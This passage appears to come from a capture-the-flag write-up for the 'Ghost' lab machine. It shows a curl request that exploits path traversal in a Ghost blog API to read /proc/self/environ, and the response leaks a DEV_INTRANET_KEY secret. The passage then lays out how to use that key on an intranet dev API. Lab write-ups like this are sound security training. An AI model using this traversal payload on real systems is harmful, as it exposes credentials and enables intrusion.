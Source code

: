 Let's attempt to retrieve the container environment variables:

```sh
curl -s "http://ghost.htb:8008/ghost/api/content/posts/?extra=../../../../proc/self/environ&key=a5af628828958c976a3b6cc81a" | jq
```

```json
{
  "posts": [
    {
      "id": "65bdd2dc26db7d00010704b5",
      "uuid": "22db47b3-bbf6-426d-9fcf-887363df82cf",
      "title": "Embarking on the Supernatural Journey: Welcome to Ghost!",
      "slug": "embarking-on-the-supernatural-journey-welcome-to-ghost",
      ⋮
        <truncated>
      ⋮
    }
  ],
  "meta": {
    "extra": {
      "../../../../proc/self/environ": "HOSTNAME=26ae7990f3dd\u0000database__debug=false\u0000YARN_VERSION=1.22.19\u0000PWD=/var/lib/ghost\u0000NODE_ENV=production\u0000database__connection__filename=content/data/ghost.db\u0000HOME=/home/node\u0000database__client=sqlite3\u0000url=http://ghost.htb\u0000DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe\u0000database__useNullAsDefault=true\u0000GHOST_CONTENT=/var/lib/ghost/content\u0000SHLVL=0\u0000GHOST_CLI_VERSION=1.25.3\u0000GHOST_INSTALL=/var/lib/ghost\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000NODE_VERSION=18.19.0\u0000GHOST_VERSION=5.78.0\u0000"
    }
  }
}
```

`DEV_INTRANET_KEY` = `!@yqr!X2kxmQ.@Xe`

## 6. Revisiting intranet with the discovered API key

### 6.1. Connecting the clues

1. A dev API exists at: `http://intranet.ghost.htb/api-dev`

![image](https://github.com/user-attachments/assets/cff8813e-a515-4df2-9d4b-d08cc333f5b1)

2. The API authentication code is discovered at `intranet/backend/src/api/dev.rs`, and shows that the `DEV_INTRANET_KEY` key should be used with `POST` header parameter `X-DEV-INTRANET-KEY`

![image](https://github.com/user-attachments/assets/cfe42bfc-4166-4a2a-8561-74a030b212a7)

3. Recall that the `README` for `blog` repo mentioned that _connection to the intranet_ would allow _URLs from posts will be scanned by the intranet_, the scanning code is discovered at `intranet/backend/src/api/dev/scan.rs`

![image](https://github.com/user-attachments/assets/57123b1f-3ad4-4fad-908e-674bfdf69bb3)
